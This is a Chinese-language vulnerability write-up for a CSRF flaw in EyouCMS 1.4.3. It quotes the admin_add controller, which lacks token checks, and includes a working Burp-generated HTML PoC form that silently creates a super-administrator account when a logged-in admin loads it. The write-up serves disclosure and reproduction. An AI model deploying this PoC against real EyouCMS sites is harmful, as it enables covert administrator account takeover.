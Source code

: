 Eyoucms 1.4.3 csrf漏洞
======================

一、漏洞简介
------------

可通过csrf漏洞添加管理员

二、漏洞影响
------------

Eyoucms 1.4.3

三、复现过程
------------

### 漏洞分析

漏洞触发点在`application\admin\controller\Admin.php`

      public function admin_add()
     {
         $this->language_access(); // 多语言功能操作权限

         if (IS_POST) {
             $data = input('post.');

             if (0 < intval(session('admin_info.role_id'))) {
                 $this->error("超级管理员才能操作！");
             }

             if (empty($data['password']) || empty($data['password2'])) {
                 $this->error("密码不能为空！");
             }else if ($data['password'] != $data['password2']) {
                 $this->error("两次密码输入不一致！");
             }

             ...

             if (empty($data['pen_name'])) {
                 $data['pen_name'] = $data['user_name'];
             }
             if (M('admin')->where("user_name", $data['user_name'])->count()) {
                 $this->error("此用户名已被注册，请更换",url('Admin/admin_add'));
             } else {
                 $admin_id = M('admin')->insertGetId($data);
                 if ($admin_id) {
                     adminLog('新增管理员：'.$data['user_name']);

                     /*同步追加一个后台管理员到会员用户表*/
                     try {
                         $usersInfo = Db::name('users')->field('users_id')->where([
                                 'username'  => $data['user_name'],
                                 'lang'      => $this->admin_lang,
                             ])->find();
                         if (!empty($usersInfo)) {
                             $r = Db::name('users')->where(['users_id'=>$usersInfo['users_id']])->update([
                                     'nickname'      => $data['user_name'],
                                     'admin_id'      => $admin_id,
                                     'is_activation' => 1,
                                     'is_lock'       => 0,
                                     'is_del'        => 0,
                                     'update_time'   => getTime(),
                                 ]);
                             !empty($r) && $users_id = $usersInfo['users_id'];
                         } else {
                             // 获取要添加的用户名
                             ...

                             $users_id = Db::name('users')->insertGetId($AddData);
                         }
                         if (!empty($users_id)) {
                             Db::name('admin')->where(['admin_id'=>$admin_id])->update([
                                     'syn_users_id'  => $users_id,
                                     'update_time'   => getTime(),
                                 ]);
                         }
                     } catch (\Exception $e) {}
                     /* END */

                     $this->success("操作成功", url('Admin/index'));
                 } else {
                     $this->error("操作失败");
                 }
             }
         }

可以看到进队管理员权限进行校验，而没有对提交token进行校验，导致恶意用户可引导管理员点击构造的url进行管理员添加，实际操作可不跳转到管理页面，以免引起怀疑。

### 漏洞复现

登陆后台，在高级选项\>管理员\>新增管理员点击之后截包

![](resource/Eyoucms1.4.3csrf漏洞/media/rId26.png)

### poc

     <html>
     <!-- CSRF PoC - generated by Burp Suite Professional -->
     <body>
     <script>history.pushState('', '', '/')</script>
         <form action="http://127.0.0.1/EyouCMS1.4.3/login.php?m=admin&c=Admin&a=admin_add&lang=cn" method="POST">
         <input type="hidden" name="user_name" value="test" />
         <input type="hidden" name="password" value="test" />
         <input type="hidden" name="password2" value="test" />
         <input type="hidden" name="pen_name" value="" />
         <input type="hidden" name="true_name" value="" />
         <input type="hidden" name="mobile" value="" />
         <input type="hidden" name="role_id" value="-1" />
         <input type="submit" value="Submit request" />
         </form>
     </body>
     </html>

模拟管理员点击

![](resource/Eyoucms1.4.3csrf漏洞/media/rId28.png)

添加完成

![](resource/Eyoucms1.4.3csrf漏洞/media/rId29.png)
